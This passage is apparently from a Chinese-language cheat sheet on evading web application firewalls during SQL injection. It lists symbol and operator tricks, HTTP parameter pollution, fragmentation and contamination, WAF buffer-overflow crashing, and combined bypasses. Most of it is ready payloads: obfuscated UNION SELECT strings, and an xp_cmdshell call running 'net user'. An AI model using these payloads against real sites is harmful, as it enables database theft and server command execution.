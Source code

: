 	+ \`symbol: select \`version()\`; 反引号，可以用来过空格和正则，特殊情况下还可以将其做注释符用
	+ +- :select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
	+ @:select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
	+ Mysql function() as xxx；也可不用as和空格
	+ `、~、!、@、%、()、[]、.、-、+ 、|、%00 
	+ 操作符供参考：>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
	
	示例
	
		‘se’+’lec’+’t’   
		%S%E%L%E%C%T 1   
		1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)  
		' or --+2=- -!!!'2   
		id=1+(UnI)(oN)+(SeL)(EcT)	////另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔
		select-count(id)test from users;  //绕过空格限制

7. HTTP参数控制  
	通过提供多个参数=相同名称的值集来混淆WAF。例如 http://example.com?id=1&?id=’ or ‘1’=’1′ — ‘在某些情况下(例如使用Apache/PHP)，应用程序将仅解析最后(第二个) id= 而WAF只解析第一个。在应用程序看来这似乎是一个合法的请求，因此应用程序会接收并处理这些恶意输入。如今，大多数的WAF都不会受到HTTP参数污染(HPP)的影响，但仍然值得一试。

	+ HPP(HTTP Parameter Polution))

			/?id=1;select+1,2,3+from+users+where+id=1—   
			/?id=1;select+1&amp;id=2,3+from+users+where+id=1—   
			/?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users 
		HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况，不同的Web服务器处理方式如下：

	+ HPF(HTTP Parameter Fragment)

		这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)

		/?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--   
		select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users— 

	+ HPC(HTTP Parameter Contamination)

		这一概念见于exploit-db上的paper：Beyond SQLi: Obfuscate and Bypass，Contamination同样意为污染
		RFC2396定义了以下字符：
		Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' () 
		Reserved : ; / ? : @ &amp; = + $ , 
		Unwise : { } | \ ^ [ ] ` 
		不同的Web服务器处理处理构造得特殊请求时有不同的逻辑：
		以魔术字符%为例，Asp/Asp.net会受到影响



8. 缓冲区溢出

	WAF和其他所有的应用程序一样也存在着各种缺陷和漏洞。如果出现缓冲区溢出的情况，那么WAF可能就会崩溃，即使不能代码执行那也会使WAF无法正常运行。这样，WAF的安全防护自然也就被瓦解了。

		?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 

9. 整合绕过

	当使用单一的方式无法绕过时，我们则可以灵活的将多种方式结合在一起尝试。

		target.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…   
